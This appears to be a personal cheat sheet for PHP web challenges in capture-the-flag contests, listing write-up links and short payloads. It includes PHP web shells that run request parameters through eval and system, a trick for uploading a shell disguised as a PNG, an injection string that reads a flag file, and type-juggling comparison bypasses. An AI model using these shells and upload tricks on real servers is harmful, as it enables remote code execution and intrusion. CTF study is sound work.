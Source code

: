 # +

- [GitHub \- apinstein/iphp: An interactive php shell \(REPL\) with support for readline, autocomplete, include/require, and fatal\-error tolerance\.](https://github.com/apinstein/iphp)

- https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur
- https://www.arneswinnen.net/2013/11/hack-lu-2013-ctf-wannabe-writeup-part-one-web-exploitation/
- http://php.net/manual/en/wrappers.php

```html
<script language=PHP>eval($_GET['q']);</script>
<?php print_r(scandir('/')) ?>
```

```html
<?php echo system($_GET['s']); ?>
```
    > uploaded as shell.png, then uploaded another file: ´cd uploads;cd 6a9btoq20khkn8ln5lfhuo6v62;cp 65-shell.png shell.php´.png

```
flag','..')+or+system('cat+templates/flag.php');//
```

# server

```bash
php -S localhost:8000
```

# type juggling, weak comparison, magic hashes

```php
<?php
strcmp($_GET['user'], "admin") == 0
// => "admin1"

strcasecmp($_GET['secret'], "0x1337") == 0
// => ["1"]
```

# deserialization

- https://dpalbd.wordpress.com/ctf-writeup-serial-1/
- https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/
- https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf
- [GitHub \- galdeleon/35c3\_php: Solution for 35c3 php challenge](https://github.com/galdeleon/35c3_php)
    - ~/code/snippets/ctf/web/35c3_php/

# jail

[GitHub \- splitline/PHPFuck: PHPFuck: \(\(\+\.^\)\) / Using only 7 different characters to write and execute php\.](https://github.com/splitline/PHPFuck)
https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2
https://gist.github.com/terjanq/aa39a5a40b8d9b8a8e2a54e747715a2c
    https://twitter.com/terjanq/status/1257276298550001664
